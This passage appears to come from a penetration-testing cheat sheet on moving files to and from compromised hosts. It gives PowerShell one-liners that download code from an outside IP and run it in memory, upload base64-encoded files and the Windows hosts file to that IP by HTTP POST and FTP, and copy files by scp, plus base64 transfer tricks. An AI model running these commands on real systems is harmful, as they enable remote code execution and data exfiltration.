 Fileless execution:

{% tabs %}
{% tab title="IEX" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/file1','c:\temp\file1') | IEX
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Uploads

{% tabs %}
{% tab title="IWR" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># encode file
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:\temp\file1' -Encoding Byte))
<strong># upload file
</strong>Invoke-WebRequest -Uri http://10.10.10.10 -Method POST -Body $b64
</code></pre>
{% endtab %}

{% tab title="FTP" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>(New-Object Net.WebClient).UploadFile('ftp://10.10.10.10/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
</strong></code></pre>
{% endtab %}

{% tab title="scp" %}
```powershell
scp C:\Temp\file1 user@10.10.10.10:/tmp/file1
```
{% endtab %}
{% endtabs %}

## Misc

### b64

{% tabs %}
{% tab title="Windows to Linux" %}
```powershell
# encode file on Windows
[Convert]::ToBase64String((Get-Content -path "c:\temp\file1" -Encoding byte))
# copy the output and decode it on Linux
echo IyBDb3B5...YWxob3N0DQo= | base64 -d > file1
```
{% endtab %}

{% tab title="Linux to Windows" %}
{% code overflow="wrap" %}
```bash
# encode file (-w --> wrap, use 0 to disable line wrapping)
cat file1 | base64 -w 0;echo
# decode on PowerShell
[IO.File]::WriteAllBytes("c:\temp\file1", [Convert]::FromBase64String("LS0tL...0tLQo="))
```
{% endcode %}
{% endtab %}
{% endtabs %}
